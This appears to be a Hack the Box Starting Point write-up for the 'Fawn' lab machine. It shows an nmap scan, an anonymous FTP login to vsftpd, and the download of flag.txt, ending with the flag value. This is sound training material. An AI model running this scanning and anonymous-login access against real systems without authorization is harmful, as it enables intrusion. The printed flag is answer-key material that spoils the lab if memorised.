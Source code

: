 Hack the Box
Starting Pont
Fawn

10.129.1.14

sudo nmap -sV -sC -oA nmap/fawn 10.129.1.14

Starting Nmap 7.93SVN ( https://nmap.org ) at 2023-06-17 17:40 EDT
Nmap scan report for 10.129.1.14
Host is up (0.14s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.52 seconds

** Anonymous login to FTP is allowed, and we see that flag.txt is listed.
End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt


$ ftp 10.129.1.14        
Connected to 10.129.1.14.
220 (vsFTPd 3.0.3)
Name (10.129.1.14:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

ftp> ls
229 Entering Extended Passive Mode (|||29104|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||15694|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |****************************************************************************|    32       26.64 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.26 KiB/s)
ftp> 

$ exa
flag.txt  nmap
                                                                                                                         
┌──(kali㉿kali)-[~/…/CTF/HTB/starting_point/fawn]
└─$ cat flag.txt
035db21c881520061c53e0536e44f815          

